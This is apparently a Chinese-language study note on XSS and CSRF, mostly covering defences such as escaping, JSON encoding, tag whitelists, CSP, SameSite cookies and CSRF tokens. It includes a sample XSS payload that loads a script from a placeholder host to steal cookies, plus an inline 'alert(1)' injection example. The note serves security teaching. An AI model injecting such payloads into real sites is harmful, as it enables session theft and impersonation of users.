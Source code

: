## XSS 跨站脚本攻击

即注入脚本到页面，为所欲为。例如当后台的html模板为`<div>#{content}</div>`,而其中的content正好是我们前台传递过来的url的参数，
这时如果我们传入的url参数为一个脚本，例如`<script src='http://xxx.xxx.xx/index.js'></script>`这个时候我们就可以在这注入的脚本里面为所欲为，
如盗用cookies进而冒充登陆,盗取数据等等。

跨站攻击有几种分类:
- url参数直接注入 (反射型)
- 存储到数据库中后被读取时注入 (存储型)

注入点：
- html内容
- 属性
- javaScript代码
- 富文本

## XSS 的防御
可直接使用已有的轮子`XSS`。
### 转义
#### html内容
将`<`和`>`分别用`&lt;`和`&gt;`来替换

#### html属性
- <img class = "#{class}">, 当class当中含有引号的时候，会将属性提前关闭，对应的策略任然是转义,使用`&quto;`来替代双引号，使用`&#39`来代替单引号  

#### javaScript代码
当我们的代码当中含有后台传回来的数据的时候，也有可能由于引号问题而提前结束字符串， 如下
```
<script>
    var data = "#{data}" 
    // 当出现XSS攻击的时候上面的data可能成为这样: var data = "hello";alert(1);"";
</script>
```
- 解决办法之一是将data当中的双引号转义`"` => `\"`， 但是这种方式不能完全解决问题
- 正确的解决办法是在返回数据的时候使用JSON.stringfy将数据转换成JSON格式，它会对引号等进行转义，更加方便

#### 富文本

- 使用黑名单: 即过滤那些不允许的标签 // 不推荐
- 使用白名单: 遍历html，不在白名单当中的标签和属性应该删除，可使用`cheerio`这个库莱操作`dom`

### CSP 指定哪些内容可以执行
内容安全策略( CSP ) - HTTP | MDN
- 参看MDN


## CSRF 跨站请求伪造

通过发送请求来进行攻击，例如有一个网站a, 它有它的前端和后端，当用户登陆后，会在本地保存自己的cookies，
然后有一个攻击者b的网站，当用户无意间，点击进入了b的网站。
b网站的脚本会创建一个form表单，并设置相应的值，然后触发提交，利用form表单的无跨域限制，
冒充用户的身份使用post或者get去发送或者获取一些数据到a网站的后台，这样是特别危险的

## CSRF 防御
### 禁止第三方网站携带Cookies
设置Cookies的samesite选项，但是现在只有chrome支持它

### token 和 验证码

因为CSRF一般是不会经a网站的前端的，所以我们可以在a网站的前端添加一些信息，这样攻击者的b网站就拿不到我们的信息
- 验证码: 可以用轮子，如`ccap`, 前后端配合，后端生成验证码图片和数据，把图片返回给前端，数据可以用户id为键存储起来，下一次请求来的时候将验证码和之前存的进行比对
- token: 一个随机的字符串。

### 验证 referer

通过验证referer来禁止第三方网站的访问   